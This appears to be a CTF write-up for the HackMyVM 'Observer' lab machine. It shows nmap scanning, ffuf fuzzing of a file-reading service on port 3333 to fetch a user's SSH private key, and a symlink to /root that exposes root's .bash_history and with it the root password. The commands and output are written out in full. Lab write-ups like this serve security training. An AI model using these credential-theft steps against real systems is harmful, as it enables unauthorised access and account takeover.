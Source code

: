 ```yaml
---
categories: [HackMyVM]
tags: [Fuzzing, PrivEsc, Soft_Link]
img_path: Vulnhub-Files/img/
image:
  path: Observer/Untitled.png
  alt: HackMyVM Machine 📷
---
```


HackMyVM Machine ➡️ &nbsp;&nbsp;<kbd>Easy</kbd> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
<kbd>#Fuzzing</kbd>&nbsp;&nbsp;<kbd>#Soft_Link</kbd>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;


## Port Scan Results ⤵️

![Untitled](Observer/Untitled%201.png)

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Observer]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_Result.txt 10.0.2.83   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-27 12:42 IST
Nmap scan report for 10.0.2.83
Host is up (0.0011s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 9.2p1 Debian 2 (protocol 2.0)
| ssh-hostkey: 
|   256 06:c9:a8:8a:1c:fd:9b:10:8f:cf:0b:1f:04:46:aa:07 (ECDSA)
|_  256 34:85:c5:fd:7b:26:c3:8b:68:a2:9f:4c:5c:66:5e:18 (ED25519)
3333/tcp open  dec-notes?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 200 OK
|     Date: Mon, 27 Nov 2023 07:13:06 GMT
|     Content-Length: 105
|     Content-Type: text/plain; charset=utf-8
|     OBSERVING FILE: /home/nice ports,/Trinity.txt.bak NOT EXIST 
|     <!-- sbOJiFQGZsnwTKSmVoiGLOpbUOpEdKHMV -->
|   GenericLines, Help, Kerberos, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Date: Mon, 27 Nov 2023 07:12:41 GMT
|     Content-Length: 78
|     Content-Type: text/plain; charset=utf-8
|     OBSERVING FILE: /home/ NOT EXIST 
|     <!-- XVlBzgbaiCMRAjWwhTHctcuAxhxKQFHMV -->
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Date: Mon, 27 Nov 2023 07:12:41 GMT
|     Content-Length: 78
|     Content-Type: text/plain; charset=utf-8
|     OBSERVING FILE: /home/ NOT EXIST 
|_    <!-- DaFpLSjFbcXoEFfRsWxPLDnJObCsNVHMV -->
1 service unrecognized despite returning data.
```
{: .nolineno}
{: file='Nmap_Result.txt'}

## Web Enumeration ⤵️

I checked port 80 →

![Untitled](Observer/Untitled%202.png)

It can reads the content from `home` directory means inside the home directory I have to find the `username` and the file name to read so I used `ffuf Tool` for username bruteforce →

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Observer]
└─$ ffuf -c -mc 200,301,302,401 -fc 404,500,401 -w /usr/share/seclists/Discovery/Web-Content/big.txt -u 'http://10.0.2.83:3333/FUZZ/.ssh/id_rsa' -fw 8 -fl 4 -o ffuf_parameter

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       'v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.0.2.83:3333/FUZZ/.ssh/id_rsa
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/big.txt
 :: Output file      : ffuf_parameter
 :: File format      : json
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,301,302,401
 :: Filter           : Response status: 404,500,401
 :: Filter           : Response words: 8
 :: Filter           : Response lines: 4
________________________________________________

cgi-bin/                [Status: 301, Size: 55, Words: 3, Lines: 3, Duration: 14ms]
jan                     [Status: 200, Size: 2602, Words: 7, Lines: 39, Duration: 10ms]
:: Progress: [20476/20476] :: Job [1/1] :: 5000 req/sec :: Duration: [0:00:06] :: Errors: 0 ::
```
{: .nolineno}

I got the username as `jan` and I used the file name as `.ssh/id_rsa` , That gives me the private keys of that user and I can login now →

![Untitled](Observer/Untitled%203.png)

Now lets Login →

## SSH Shell ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Observer]
└─$ ssh -i id_rsa jan@10.0.2.83
Linux observer 6.1.0-11-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.38-4 (2023-08-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Nov 27 08:53:33 2023 from 10.0.2.77
jan@observer:~$ whoami
jan
jan@observer:~$ id
uid=1000(jan) gid=1000(jan) grupos=1000(jan),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev)
jan@observer:~$ hostname
observer
jan@observer:~$
```
{: .nolineno}

lets see the sudoer file that can lead me to root →

```bash
jan@observer:~$ sudo -l
Matching Defaults entries for jan on observer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User jan may run the following commands on observer:
    (ALL) NOPASSWD: /usr/bin/systemctl -l status
jan@observer:~$
```
{: .nolineno}

I tried it and observed that the system processes are running `/opt/observer` as we can see from its web server part through root user →

![Untitled](Observer/Untitled%204.png)

As this is ran through root user so I cna try to access the root files through the web application so for that I need to create a soft link that will redirect to the root directory .

```bash
jan@observer:~$ ln -s /root root
jan@observer:~$ ls -al
total 40
drwx------ 4 jan  jan  4096 nov 27 09:29 .
drwxr-xr-x 3 root root 4096 ago 21 20:19 ..
-rw------- 1 jan  jan   711 nov 27 09:21 .bash_history
-rw-r--r-- 1 jan  jan   220 ago 21 20:19 .bash_logout
-rw-r--r-- 1 jan  jan  3526 ago 21 20:19 .bashrc
drwxr-xr-x 3 jan  jan  4096 ago 21 20:21 .local
-rw-r--r-- 1 jan  jan   807 ago 21 20:19 .profile
lrwxrwxrwx 1 jan  jan     5 nov 27 09:29 root -> /root
drwx------ 2 jan  jan  4096 ago 21 20:25 .ssh
-rw------- 1 jan  jan    24 ago 21 20:21 user.txt
-rw------- 1 jan  jan    54 ago 21 20:21 .Xauthority
jan@observer:~$
jan@observer:~$ cd root
-bash: cd: root: Permiso denegado
jan@observer:~$
```
{: .nolineno}

Now Lets access `.bash_history` file common known file in a user directory →

![Untitled](Observer/Untitled%205.png)

I got the root password from here so lets Login and be a root user →

```bash
jan@observer:~$ su root
Contraseña: 
su: Fallo de autenticación
jan@observer:~$ su root
Contraseña: 
root@observer:/home/jan# cd ~
root@observer:~# whoami
root
root@observer:~# id
uid=0(root) gid=0(root) grupos=0(root)
root@observer:~# hostname
observer
root@observer:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:48:8b:ad brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.83/24 brd 10.0.2.255 scope global dynamic enp0s3
       valid_lft 331sec preferred_lft 331sec
    inet6 fe80::a00:27ff:fe48:8bad/64 scope link 
       valid_lft forever preferred_lft forever
root@observer:~# cat root.txt
FLAG-------FLAG-------FLAG
root@observer:~# ls -al
total 52
drwx------  5 root root 4096 nov 27 09:29 .
drwxr-xr-x 18 root root 4096 ago 21 20:17 ..
-rw-------  1 root root  668 nov 27 09:21 .bash_history
-rw-r--r--  1 root root  571 abr 10  2021 .bashrc
drwxr-xr-x  3 root root 4096 ago 21 20:23 .cache
-rw-------  1 root root   55 nov 27 09:29 .lesshst
drwxr-xr-x  3 root root 4096 ago 21 20:23 .local
-rw-r--r--  1 root root  913 ago 21 20:23 observer.go
-rw-r--r--  1 root root  161 jul  9  2019 .profile
-rw-------  1 root root   24 ago 21 20:24 root.txt
-rw-r--r--  1 root root   66 ago 21 20:23 .selected_editor
drwx------  2 root root 4096 ago 21 20:15 .ssh
-rw-r--r--  1 root root  161 ago 21 20:22 .wget-hsts
root@observer:~#
```
{: .nolineno}

Now am Root !!

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }